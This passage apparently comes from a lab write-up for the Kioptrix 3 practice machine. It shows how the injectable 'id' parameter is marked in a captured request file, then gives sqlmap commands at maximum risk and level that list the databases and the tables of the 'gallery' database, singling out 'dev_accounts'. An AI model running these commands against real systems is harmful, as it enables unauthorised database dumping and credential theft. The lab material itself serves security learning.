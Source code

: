 We open the request.txt file and add the asterisk at the parameter that we want to inject which is id in our case.

```bash
vi request.txt
```

![request_file](/assets/img/posts/kioptrix3/method_3/4.png)

We use sqlmap tool to automate the process of sql injection. We run the following command to dump the databases and we have found gallery database.

```bash
sqlmap -r request.txt --risk=3 --level=5 --dbs --batch
```

![sqlmap](/assets/img/posts/kioptrix3/method_3/5.1.png)

Then, we dump the tables of gallery database and the dev_accounts table seems to be interested to us.

```bash
sqlmap -r request.txt --risk=3 --level=5 -D gallery --tables --batch
```

![sqlmap](/assets/img/posts/kioptrix3/method_3/5.2.png)
